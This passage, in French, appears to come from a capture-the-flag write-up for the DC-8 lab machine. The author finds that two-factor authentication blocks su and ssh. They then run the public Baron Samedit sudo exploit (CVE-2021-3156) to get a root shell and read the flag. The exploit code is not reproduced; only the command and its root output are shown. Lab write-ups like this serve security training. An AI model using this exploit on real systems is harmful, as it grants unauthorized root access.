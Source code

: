 Impossible de dire si le mot de passe est celui de l'utilisateur local `dc8user` car la 2FA est présente :

```console
www-data@dc-8:/tmp$ su dc8user
Verification code: 
Password: 
su: Authentication failure
```

Il n'y a pas grand-chose à dire sur le sujet. Elle est présente pour `su`, `ssh`, `scp` et aussi sur le terminal (depuis la fenêtre VirtualBox).

```console
www-data@dc-8:/tmp$ ls /etc/pam.d/
chfn  chpasswd  chsh  common-account  common-auth  common-password  common-session  common-session-noninteractive  cron  login  newusers  other  passwd  runuser  runuser-l  sshd  su  sudo  systemd-user
www-data@dc-8:/tmp$ grep google /etc/pam.d/*
/etc/pam.d/common-auth:auth required pam_google_authenticator.so
/etc/pam.d/sshd:auth required pam_google_authenticator.so
```

## Baron Samedit

Puisqu'il faut passer outre j'ai utilisé l'exploit [GitHub - worawit/CVE-2021-3156: Sudo Baron Samedit Exploit](https://github.com/worawit/CVE-2021-3156) :

```console
www-data@dc-8:/tmp/CVE-2021-3156$ python exploit_nss_d9.py
# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
# cd /root
# ls
flag.txt
# cat flag.txt

Brilliant - you have succeeded!!!


888       888          888 888      8888888b.                             888 888 888 888
888   o   888          888 888      888  "Y88b                            888 888 888 888
888  d8b  888          888 888      888    888                            888 888 888 888
888 d888b 888  .d88b.  888 888      888    888  .d88b.  88888b.   .d88b.  888 888 888 888
888d88888b888 d8P  Y8b 888 888      888    888 d88""88b 888 "88b d8P  Y8b 888 888 888 888
88888P Y88888 88888888 888 888      888    888 888  888 888  888 88888888 Y8P Y8P Y8P Y8P
8888P   Y8888 Y8b.     888 888      888  .d88P Y88..88P 888  888 Y8b.      "   "   "   "
888P     Y888  "Y8888  888 888      8888888P"   "Y88P"  888  888  "Y8888  888 888 888 888


Hope you enjoyed DC-8.  Just wanted to send a big thanks out there to all those
who have provided feedback, and all those who have taken the time to complete these little
challenges.

I'm also sending out an especially big thanks to:

@4nqr34z
@D4mianWayne
@0xmzfr
@theart42

This challenge was largely based on two things:

1. A Tweet that I came across from someone asking about 2FA on a Linux box, and whether it was worthwhile.
2. A suggestion from @theart42
```